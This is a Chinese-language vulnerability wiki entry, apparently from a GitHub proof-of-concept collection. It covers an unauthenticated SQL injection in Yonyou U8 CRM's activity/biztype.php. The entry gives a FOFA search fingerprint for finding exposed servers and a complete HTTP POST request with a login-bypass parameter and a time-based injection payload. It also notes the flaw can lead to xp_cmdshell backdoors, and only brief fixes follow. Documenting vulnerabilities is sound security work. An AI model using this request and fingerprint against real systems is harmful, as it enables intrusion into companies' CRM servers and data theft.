

# 用友U8 CRM activitybiztype.php SQL注入漏洞(XVE-2024-37123)

# 漏洞描述

用友 U8 CRM客户关系管理系统 activity/biztype.php 存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

# 影响版本

V18, V16.5, V16.1, V16.0, V15.1, V13

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="错误：错误的数据。请参看页面的详细错误信息。"

POC/EXP：

POST /activity/biztype.php?DontCheckLogin=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Connection: close

actvtID=1%27;WAITFOR+DELAY+%270:0:3%27--

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
